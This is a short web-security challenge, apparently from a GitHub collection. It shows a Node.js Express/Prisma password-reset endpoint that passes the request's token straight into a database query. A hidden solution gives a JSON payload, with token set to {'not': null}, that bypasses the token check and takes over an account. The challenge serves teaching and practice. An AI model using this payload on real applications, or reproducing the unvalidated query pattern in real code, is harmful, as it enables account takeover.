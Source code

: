 # Prisma ORM Leak
Is this app vulnerable to 0-click account takeover?
```javascript
const express = require('express');
const { PrismaClient } = require('@prisma/client');
const bcrypt = require('bcryptjs');

const app = express();
const prisma = new PrismaClient();
app.use(express.json());


app.post('/reset-password', async (req, res) => {
    const { email, token, newPassword } = req.body;

    if (!email || !token || !newPassword) {
        return res.status(400).json({ error: "Missing required fields" });
    }

    try {
        const user = await prisma.user.findUnique({
            where: { email, resetToken: token }
        });
        if (!user || new Date(user.resetExpires) < new Date()) {
            return res.status(400).json({ error: 'Invalid or expired token' });
        }

        const hashedPassword = await bcrypt.hash(newPassword, 10);
        await prisma.user.update({
            where: { id: user.id },
            data: { password: hashedPassword, resetToken: null, resetExpires: null }
        });

        res.json({ message: 'Password reset successfully' });
    } catch (error) {
        res.status(400).json({ error: 'Invalid token' });
    }
});

app.listen(3000, () => console.log('Server running on port 3000'));
```
<details>
  <summary>Toggle to see the solution</summary>

  This Challenge is vulnerable to ORM Leak, allowing you to bypass the conditions.
  Inspired by this research:
  https://www.elttam.com/blog/plorming-your-primsa-orm/

  Solution Payload:
  ```json
  {
    "email": "test@voorivexteam.com",
    "token": {
        "not": null
    },
    "newPassword":"12345"
  }
  ```

</details>